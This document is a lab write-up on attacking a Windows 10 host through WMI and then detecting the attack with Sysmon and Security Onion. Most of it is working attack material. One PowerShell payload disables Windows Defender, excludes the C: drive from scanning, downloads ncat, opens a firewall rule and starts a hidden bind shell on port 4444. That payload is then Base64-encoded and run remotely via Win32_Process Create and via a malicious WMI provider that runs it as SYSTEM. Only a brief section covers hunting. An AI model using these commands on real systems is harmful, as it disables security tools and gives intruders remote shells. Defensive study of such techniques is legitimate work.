




# Performing and Hunting WMI Attacks

Windows Management Instrumentation (WMI) is a framework baked into Windows for managing devices and applications. This is one way that attackers can login to remote machines and execute code on a system locally. This attack will demonstrate how to use WMI against a Windows 10 host to execute a malicious payload and how to hunt the attack using Sysmon and Security Onion.

## WMI Attack Types

WMI provides a built-in class and method for executing a process on a system. This can be accessed in multiple ways, including `wmic.exe` and the `Invoke-WmiMethod` commandlet in PowerShell. In addition to this native feature, an attacker with access to a system can install a malicious WMI provider to achieve code execution as `SYSTEM`. Both of these methods will require previous access to a system or previously known credentials to a victim host. There are other more advanced WMI attacks detailed [here](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf), including 

## Victim Host Setup

On the machine that code will be executed on, a few steps need to be taken to ensure that WMI will be allowed to function as an attack vector. On Windows 10, make sure that WMI traffic is allowed in:



Additionally, make sure that Remote Launch and Remote Activation are enabled in Component Services for `Everyone`. This will ensure that WMI connections are allowed to the victim machine.

### Sysmon Setup

On the victim host, install Sysmon for logging purposes. This will allow us an easy way to detect WMI activity on the host. [Download and extract Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) and [SwiftOnSecurity's configuration file](https://github.com/SwiftOnSecurity/sysmon-config). Run the following command to install Sysmon, being sure to point at the configuration file on your system:

```
Sysmon64.exe -i sysmonconfig-export.xml
```

Now that logging is taking place, Winlogbeat can be used to forward Sysmon logs to 



### Winlogbeat Setup

[Download Winlogbeat](https://www.elastic.co/downloads/beats/winlogbeat) on the victim host and extract it to `C:\Program Files`. Rename `winlogbeat-<version> to Winlogbeat`. Call the PowerShell script `.\install-service-winlogbeat.ps1` from an administrative PowerShell prompt inside the extracted directory. This will install the Winlogbeat service on the system. If running scripts is disabled on the host, run `Set-ExecutionPolicy Bypass -Force` on the system to allow the script to run.

Now, Winlogbeat needs to be configured to point at the Elastic stack hosted on Security Onion. Modify `C:\Program Files\Winlogbeat\winlogbeat.yml` to accomplish this, uncommenting and modifying the following lines under `Logstash Output`. Modify the host to point at the IP address of the Security Onion system:

```
output.logstash:
  hosts:["192.168.8.3:5044"]
```

Be sure to comment out `output.elasticsearch` if it is enabled by default.

Now from an administrative PowerShell prompt, start the configured Winlogbeat service and set the service to start on boot:

```
Set-Service -Name "winlogbeat" -StartupType automatic
Start-Service -Name "winlogbeat"
```

By default, Winlogbeat should now be forwarding items from the Windows Event Log, including Sysmon logs, to Security Onion. Security Onion must still be configured to allow this data to be ingested.

### Security Onion Setup

On Security Onion, run `sudo so-allow` to add a firewall rule for Winlogbeat communication. Select the option for a Logstash Beat, and add a single IP address or range to accept Winlogbeat traffic from. Data should not be ingested into Elasticsearch by Security Onion and will be present in Kibana.

## Payload Development

For testing in this project, a PowerShell payload was developed for delivering and configuring an Ncat backdoor. This was transformed into a one-line script and then Base64 encoded to be run on the remote system. The payload used is as follows:

```
Set-MpPreference -DisableRealtimeMonitoring $True; New-ItemProperty -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender' -Name 'DisableAntiSpyware' -Value '1' -PropertyType DWORD -Force; Add-MpPreference -ExclusionPath 'C:\'; Invoke-WebRequest -Uri 'http://nmap.org/dist/ncat-portable-5.59BETA1.zip' -OutFile 'C:\Program Files\nc.zip' -UseBasicParsing; Expand-Archive -LiteralPath 'C:\Program Files\nc.zip' -DestinationPath 'C:\Program Files\Windows'; Move-Item -Path 'C:\Program Files\Windows\ncat-portable-5.59BETA1\ncat.exe' -Destination 'C:\Program Files\Windows\n.exe'; Remove-Item 'C:\Program Files\nc.zip'; Get-ChildItem 'C:\Program Files\Windows\ncat-portable-5.59BETA1' -Recurse | Remove-Item; Remove-Item 'C:\Program Files\Windows\ncat-portable-5.59BETA1'; New-NetFirewallRule -DisplayName 'Allow n' -Program 'C:\Program Files\Windows\n.exe' -Action Allow; Start-Process -FilePath 'C:\Program Files\Windows\n.exe' -ArgumentList '-l -p 4444 -e cmd' -WindowStyle Hidden
```

To encode the command, the payload was stored as `$command`, and the contents of `$Encoded` were used. The following code would produce a Base64-encoded call of `whoami`:

```
$command = “whoami”
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
```

Using this method, the final syntax for a PowerShell call of the encoded payload would look like the following:

```
powershell.exe -enc "UwBlAHQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARABpAHMAYQBiAGwAZQBSAGUAYQBsAHQAaQBtAGUATQBvAG4AaQB0AG8AcgBpAG4AZwAgAFQAcgB1AGUAOwAgAE4AZQB3AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIAAnAEgASwBMAE0AOgBcAFMATwBGAFQAVwBBAFIARQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwAgAEQAZQBmAGUAbgBkAGUAcgAnACAALQBOAGEAbQBlACAAJwBEAGkAcwBhAGIAbABlAEEAbgB0AGkAUwBwAHkAdwBhAHIAZQAnACAALQBWAGEAbAB1AGUAIAAnADEAJwAgAC0AUAByAG8AcABlAHIAdAB5AFQAeQBwAGUAIABEAFcATwBSAEQAIAAtAEYAbwByAGMAZQA7ACAAQQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACcAQwA6AFwAJwA7ACAASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBuAG0AYQBwAC4AbwByAGcALwBkAGkAcwB0AC8AbgBjAGEAdAAtAHAAbwByAHQAYQBiAGwAZQAtADUALgA1ADkAQgBFAFQAQQAxAC4AegBpAHAAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAG4AYwAuAHoAaQBwACcAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnADsAIABFAHgAcABhAG4AZAAtAEEAcgBjAGgAaQB2AGUAIAAtAEwAaQB0AGUAcgBhAGwAUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAG4AYwAuAHoAaQBwACcAIAAtAEQAZQBzAHQAaQBuAGEAdABpAG8AbgBQAGEAdABoACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwAnADsAIABNAG8AdgBlAC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAGMAYQB0AC0AcABvAHIAdABhAGIAbABlAC0ANQAuADUAOQBCAEUAVABBADEAXABuAGMAYQB0AC4AZQB4AGUAJwAgAC0ARABlAHMAdABpAG4AYQB0AGkAbwBuACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4ALgBlAHgAZQAnADsAIABSAGUAbQBvAHYAZQAtAEkAdABlAG0AIAAnAEMAOgBcAFAAcgBvAGcAcgBhAG0AIABGAGkAbABlAHMAXABuAGMALgB6AGkAcAAnADsAIABHAGUAdAAtAEMAaABpAGwAZABJAHQAZQBtACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4AYwBhAHQALQBwAG8AcgB0AGEAYgBsAGUALQA1AC4ANQA5AEIARQBUAEEAMQAnACAALQBSAGUAYwB1AHIAcwBlACAAfAAgAFIAZQBtAG8AdgBlAC0ASQB0AGUAbQA7ACAAUgBlAG0AbwB2AGUALQBJAHQAZQBtACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4AYwBhAHQALQBwAG8AcgB0AGEAYgBsAGUALQA1AC4ANQA5AEIARQBUAEEAMQAnADsAIABOAGUAdwAtAE4AZQB0AEYAaQByAGUAdwBhAGwAbABSAHUAbABlACAALQBEAGkAcwBwAGwAYQB5AE4AYQBtAGUAIAAnAEEAbABsAG8AdwAgAG4AJwAgAC0AUAByAG8AZwByAGEAbQAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAC4AZQB4AGUAJwAgAC0AQQBjAHQAaQBvAG4AIABBAGwAbABvAHcAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAC4AZQB4AGUAJwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAnAC0AbAAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABjAG0AZAAnACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABIAGkAZABkAGUAbgA="
```

After this is run on the victim host, a Ncat listener should be opened on port `4444` for another host to connect to and obtain a remote shell.

## WMI Attack - Win32_Process Create Method

One built-in WMI class, `Win32_Process`, has a `Create` method that allows for process execution. From another Windows machine on the network, the `Invoke-WmiMethod` PowerShell commandlet can be used to execute this payload remotely. In this example, the following command was used:

```
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList 'powershell.exe -enc "UwBlAHQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARABpAHMAYQBiAGwAZQBSAGUAYQBsAHQAaQBtAGUATQBvAG4AaQB0AG8AcgBpAG4AZwAgAFQAcgB1AGUAOwAgAE4AZQB3AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIAAnAEgASwBMAE0AOgBcAFMATwBGAFQAVwBBAFIARQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwAgAEQAZQBmAGUAbgBkAGUAcgAnACAALQBOAGEAbQBlACAAJwBEAGkAcwBhAGIAbABlAEEAbgB0AGkAUwBwAHkAdwBhAHIAZQAnACAALQBWAGEAbAB1AGUAIAAnADEAJwAgAC0AUAByAG8AcABlAHIAdAB5AFQAeQBwAGUAIABEAFcATwBSAEQAIAAtAEYAbwByAGMAZQA7ACAAQQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACcAQwA6AFwAJwA7ACAASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBuAG0AYQBwAC4AbwByAGcALwBkAGkAcwB0AC8AbgBjAGEAdAAtAHAAbwByAHQAYQBiAGwAZQAtADUALgA1ADkAQgBFAFQAQQAxAC4AegBpAHAAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAG4AYwAuAHoAaQBwACcAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnADsAIABFAHgAcABhAG4AZAAtAEEAcgBjAGgAaQB2AGUAIAAtAEwAaQB0AGUAcgBhAGwAUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAG4AYwAuAHoAaQBwACcAIAAtAEQAZQBzAHQAaQBuAGEAdABpAG8AbgBQAGEAdABoACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwAnADsAIABNAG8AdgBlAC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAGMAYQB0AC0AcABvAHIAdABhAGIAbABlAC0ANQAuADUAOQBCAEUAVABBADEAXABuAGMAYQB0AC4AZQB4AGUAJwAgAC0ARABlAHMAdABpAG4AYQB0AGkAbwBuACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4ALgBlAHgAZQAnADsAIABSAGUAbQBvAHYAZQAtAEkAdABlAG0AIAAnAEMAOgBcAFAAcgBvAGcAcgBhAG0AIABGAGkAbABlAHMAXABuAGMALgB6AGkAcAAnADsAIABHAGUAdAAtAEMAaABpAGwAZABJAHQAZQBtACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4AYwBhAHQALQBwAG8AcgB0AGEAYgBsAGUALQA1AC4ANQA5AEIARQBUAEEAMQAnACAALQBSAGUAYwB1AHIAcwBlACAAfAAgAFIAZQBtAG8AdgBlAC0ASQB0AGUAbQA7ACAAUgBlAG0AbwB2AGUALQBJAHQAZQBtACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4AYwBhAHQALQBwAG8AcgB0AGEAYgBsAGUALQA1AC4ANQA5AEIARQBUAEEAMQAnADsAIABOAGUAdwAtAE4AZQB0AEYAaQByAGUAdwBhAGwAbABSAHUAbABlACAALQBEAGkAcwBwAGwAYQB5AE4AYQBtAGUAIAAnAEEAbABsAG8AdwAgAG4AJwAgAC0AUAByAG8AZwByAGEAbQAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAC4AZQB4AGUAJwAgAC0AQQBjAHQAaQBvAG4AIABBAGwAbABvAHcAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAC4AZQB4AGUAJwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAnAC0AbAAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABjAG0AZAAnACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABIAGkAZABkAGUAbgA="' -ComputerName '192.168.8.201' -Credential 'Win10-Client\user1'
```

This command will prompt the user for the remote user's credentials upon execution. From another system with ncat installed, the success of this attack can be verified with a connection to the host and port used. On Kali Linux, a shell was successful with the permissions of the authenticated user:



## WMI Attack - Malicious Provider Method

In addition to this built-in functionality, attackers can create malicious WMI Providers to achieve SYSTEM permissions. [This proof of concept code was used](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider) to demonstrate this ability. In order to use this, the provider must be installed. On the victim machine, clone the proof of concept code and run the following commands from an administrative PowerShell prompt:

```
git clone https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider.git
cd EvilNetConnectionWMIProvider/bin/Debug
.\InstallUtil.exe /i .\EvilNetConnectionWMIProvider.dll
```

A UAC prompt may appear requiring permission to install this WMI Provider. After installation, This provider and its methods should be accessible using the same PowerShell commandlet as before. This POC code exposes a `RunPs` method for running PowerShell as `SYSTEM`. To perform this, run the following PowerShell from a remote machine:

```
Invoke-WmiMethod -Class Win32_NetConnection -Name RunPs -ArgumentList 'powershell.exe -enc "UwBlAHQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARABpAHMAYQBiAGwAZQBSAGUAYQBsAHQAaQBtAGUATQBvAG4AaQB0AG8AcgBpAG4AZwAgAFQAcgB1AGUAOwAgAE4AZQB3AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIAAnAEgASwBMAE0AOgBcAFMATwBGAFQAVwBBAFIARQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwAgAEQAZQBmAGUAbgBkAGUAcgAnACAALQBOAGEAbQBlACAAJwBEAGkAcwBhAGIAbABlAEEAbgB0AGkAUwBwAHkAdwBhAHIAZQAnACAALQBWAGEAbAB1AGUAIAAnADEAJwAgAC0AUAByAG8AcABlAHIAdAB5AFQAeQBwAGUAIABEAFcATwBSAEQAIAAtAEYAbwByAGMAZQA7ACAAQQBkAGQALQBNAHAAUAByAGUAZgBlAHIAZQBuAGMAZQAgAC0ARQB4AGMAbAB1AHMAaQBvAG4AUABhAHQAaAAgACcAQwA6AFwAJwA7ACAASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBuAG0AYQBwAC4AbwByAGcALwBkAGkAcwB0AC8AbgBjAGEAdAAtAHAAbwByAHQAYQBiAGwAZQAtADUALgA1ADkAQgBFAFQAQQAxAC4AegBpAHAAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAG4AYwAuAHoAaQBwACcAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnADsAIABFAHgAcABhAG4AZAAtAEEAcgBjAGgAaQB2AGUAIAAtAEwAaQB0AGUAcgBhAGwAUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAG4AYwAuAHoAaQBwACcAIAAtAEQAZQBzAHQAaQBuAGEAdABpAG8AbgBQAGEAdABoACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwAnADsAIABNAG8AdgBlAC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAGMAYQB0AC0AcABvAHIAdABhAGIAbABlAC0ANQAuADUAOQBCAEUAVABBADEAXABuAGMAYQB0AC4AZQB4AGUAJwAgAC0ARABlAHMAdABpAG4AYQB0AGkAbwBuACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4ALgBlAHgAZQAnADsAIABSAGUAbQBvAHYAZQAtAEkAdABlAG0AIAAnAEMAOgBcAFAAcgBvAGcAcgBhAG0AIABGAGkAbABlAHMAXABuAGMALgB6AGkAcAAnADsAIABHAGUAdAAtAEMAaABpAGwAZABJAHQAZQBtACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4AYwBhAHQALQBwAG8AcgB0AGEAYgBsAGUALQA1AC4ANQA5AEIARQBUAEEAMQAnACAALQBSAGUAYwB1AHIAcwBlACAAfAAgAFIAZQBtAG8AdgBlAC0ASQB0AGUAbQA7ACAAUgBlAG0AbwB2AGUALQBJAHQAZQBtACAAJwBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwAVwBpAG4AZABvAHcAcwBcAG4AYwBhAHQALQBwAG8AcgB0AGEAYgBsAGUALQA1AC4ANQA5AEIARQBUAEEAMQAnADsAIABOAGUAdwAtAE4AZQB0AEYAaQByAGUAdwBhAGwAbABSAHUAbABlACAALQBEAGkAcwBwAGwAYQB5AE4AYQBtAGUAIAAnAEEAbABsAG8AdwAgAG4AJwAgAC0AUAByAG8AZwByAGEAbQAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAC4AZQB4AGUAJwAgAC0AQQBjAHQAaQBvAG4AIABBAGwAbABvAHcAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACcAQwA6AFwAUAByAG8AZwByAGEAbQAgAEYAaQBsAGUAcwBcAFcAaQBuAGQAbwB3AHMAXABuAC4AZQB4AGUAJwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAnAC0AbAAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABjAG0AZAAnACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABIAGkAZABkAGUAbgA="' -ComputerName '192.168.8.201' -Credential 'Win10-Client\user1'
```

Again, this command will prompt the user for the remote user's credentials upon execution. From another system with ncat installed, the success of this attack can be verified with a connection to the host and port used. On Kali Linux, a shell was successful with the permissions of `SYSTEM`:



Additionally, any of these commands can be run on a local machine by leaving out the `ComputerName` and `Credential` flags. These attacks will require previous knowledge of the victim user's password.

## Hunting WMI Attacks

There aren't a lot of documented ways to hunt WMI attacks. Due to its innate ability generate a small forensics footprint, there are only select ways to hunt it. The method we found the easiest without using any major tools is event viewer.

### Method 1:

The first one is using Event Viewer. Event viewer out of the box is very broad. There are so many operations and logs that you can search. It is recommended that you install the Sysmon config for your event viewer. The Sysmon config streamlines all of the important events it finds and puts it all into one spot. After installing Sysmon, in Event Viewer go to “Applications and Services Log -> Windows -> Sysmon -> Operational” to find the streamlined logs. 

Let’s start out first test. Here we do a wmic call on a remote computer to execute the executable “FOR440Threathunting.exe”


Now going to the victim machine, we will look at the Sysmon logs. The key thing to look here is for is the “Event ID: 1“. This event ID is associated with process creation. Here we look for WMI process creation. 


We next excuted the WMI Attack - Malicious Provider Method on the vicitm machine and attemtped to hunt it. The first thing we did was check the sysmon logs and we can see that there were multiple evenst relating to our attack. The first one we found was realting to the process create of powershell.exe. 

The second is a network connection to nmap.org to download n.exe. 

The last processs of interests was the creation of the process "n.exe" aka ncat.exe


Here we can see the base 64 encrypted payload being executed on the victim machine. 

## References:
* [https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
* [https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
* [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config)
* [https://saadmalik83.wixsite.com/darkknight/post/cheap-and-reliable-check-out-these-sturdy-laptops-under-300](https://saadmalik83.wixsite.com/darkknight/post/cheap-and-reliable-check-out-these-sturdy-laptops-under-300)
* [https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-process#methods](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-process#methods)
* [https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider)